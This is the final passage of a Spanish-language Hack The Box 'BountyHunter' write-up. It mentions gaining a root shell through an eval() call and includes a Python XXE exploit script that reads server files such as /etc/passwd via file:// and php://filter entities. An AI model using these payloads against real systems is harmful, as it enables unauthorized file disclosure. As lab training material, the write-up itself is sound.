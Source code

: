 Al momento de ejecutarse de nuevo y pasar por el ```eval()``` se ejecuta arbitraríamente el comando y ya se obtiene una consola como root. 


## Recursos

[^script]: XXE Script for BountyHunter [HTB]

```python
#/usr/bin/python3
# Author: Cervant (https://brsalcedom.github.io)

from bs4 import BeautifulSoup
from termcolor import colored, cprint
import base64, argparse, json, requests

parser = argparse.ArgumentParser(
    description="XXE script for BountyHunter [HTB] - Cervant"
)
parser.add_argument("mode", help="XXE mode, options: file/wrapper")
parser.add_argument("filename", help="File to read/include: /etc/passwd")
args = parser.parse_args()

post_url = "http://10.10.11.100/tracker_diRbPr00f314.php"
burp = { 'http' : 'http://127.0.0.1:8080' }

headers = {
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'
}

mode = args.mode
file = args.filename

xxe_file="""<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://{}"> ]>
<bugreport>
<title>&xxe;</title>
<cwe>codigo</cwe>
<cvss>score</cvss>
<reward>plata</reward>
</bugreport>""".format(file)

xxe_wrapper="""<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource={}"> ]>
<bugreport>
<title>&xxe;</title>
<cwe>codigo</cwe>
<cvss>score</cvss>
<reward>plata</reward>
</bugreport>""".format(file)

def request(xxe):

    payload = base64.b64encode(xxe.encode())

    post_data = {
        'data' : payload
    }

    r = requests.post(post_url,data=post_data, headers=headers)
    soup = BeautifulSoup(r.text, "html.parser")
    response = str(soup.find_all("td")[1].text).strip()
    cprint("\n" + response, 'white')

```